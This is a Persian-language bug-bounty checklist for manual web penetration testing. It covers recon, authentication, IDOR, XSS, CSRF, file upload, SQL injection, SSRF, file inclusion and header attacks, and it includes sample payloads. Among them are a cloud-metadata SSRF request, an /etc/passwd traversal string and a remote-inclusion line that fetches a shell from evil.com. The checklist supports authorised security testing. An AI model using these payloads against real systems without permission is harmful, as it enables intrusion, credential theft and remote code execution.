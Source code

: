 
# 🛡️ چک‌لیست دستی تست نفوذ وب (Bug Bounty)

## 🔹 1. جمع‌آوری اطلاعات (Recon)
- پیدا کردن Subdomainها  
  - `assetfinder`, `amass`, `subfinder`, `crt.sh`
- پیدا کردن مسیرهای مخفی  
  - `gau`, `waybackurls`, `ffuf`, `gobuster`
- بررسی فایل‌های حساس  
  - `/.git/`, `/config.php`, `/backup.zip`

## 🔹 2. تست Authentication و Session
- **Login / Logout / Reset Password**
  - تست Login بدون پسورد
  - تست Reset Password → تغییر Token به ایمیل قربانی
- **Session Management**
  - کوکی Secure/HttpOnly بررسی بشه
  - تست Fixation: تغییر SessionID قبل و بعد از لاگین

## 🔹 3. تست Authorization (IDOR / BOLA)
- تغییر IDها:
  ```
  GET /user/123  → تغییر به 124
  ```
- تست روی API (REST/GraphQL):
  - حذف یا تغییر JWT Claim (`"role": "admin"`)
  - حذف فیلدهای حساس در درخواست و دیدن رفتار

## 🔹 4. Business Logic Flaws
- تست خرید با قیمت منفی یا صفر  
- تست چند بار استفاده از کوپن  
- تست Skip مرحله پرداخت با تغییر Flow (مثلا رفتن مستقیم به /success)  
- تست تغییر نقش کاربر با پارامترها  

## 🔹 5. XSS (Cross-Site Scripting)
- تست ورودی در: فرم‌ها، پارامتر GET/POST، هدرها
- نمونه Payload ساده:
  ```html
  "><svg onload=alert(1)>
  ```
- تست DOM-XSS در فایل‌های JS:
  - سرچ `document.write`, `innerHTML`, `location.hash`

## 🔹 6. CSRF (Cross-Site Request Forgery)
- ساخت فرم جعلی:
  ```html
  <form action="https://target.com/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@test.com">
    <input type="submit">
  </form>
  ```
- بررسی: آیا درخواست بدون CSRF Token هم قبول میشه؟

## 🔹 7. File Upload
- تست آپلود فایل:  
  - `shell.php.jpg`  
  - تغییر Content-Type: `image/jpeg` → ولی فایل PHP باشه  
- تست اجرای فایل در `/uploads/`

## 🔹 8. SQL Injection (دستی)
- اضافه کردن `'` یا `--` به پارامترها
- تست Boolean-based:
  ```
  id=1 AND 1=1
  id=1 AND 1=2
  ```
- تست Union:
  ```
  id=1 UNION SELECT null,null,null
  ```

## 🔹 9. SSRF (Server Side Request Forgery)
- پارامترهای `url`, `path`, `redirect`
  ```
  url=http://127.0.0.1:8080/admin
  url=http://169.254.169.254/latest/meta-data/
  ```
- تست DNS Logging (Burp Collaborator / interactsh)

## 🔹 10. Open Redirect
- تغییر:
  ```
  /login?redirect=https://evil.com
  ```

## 🔹 11. LFI/RFI (File Inclusion)
- تست:
  ```
  page=../../../../etc/passwd
  page=http://evil.com/shell.txt
  ```

## 🔹 12. Race Condition
- ارسال همزمان چند درخواست با Burp Intruder / Turbo Intruder  
- مثال: دوبار استفاده از کوپن تخفیف در یک لحظه  

## 🔹 13. Header Injection / Misconfig
- تست هدرها:
  ```
  Host: evil.com
  X-Forwarded-For: 127.0.0.1
  ```
- بررسی هدرهای امنیتی (CSP, X-Frame-Options, HSTS)

---

## ✅ نکات پایانی
- همه تست‌ها رو **مرحله‌ای** انجام بده و یادداشت کن.  
- خروجی هر Payload موفق → گزارش دقیق (Request + Response).  
- همیشه قبل تست → ببین توی برنامه Bug Bounty اون نوع حمله مجازه یا نه.  
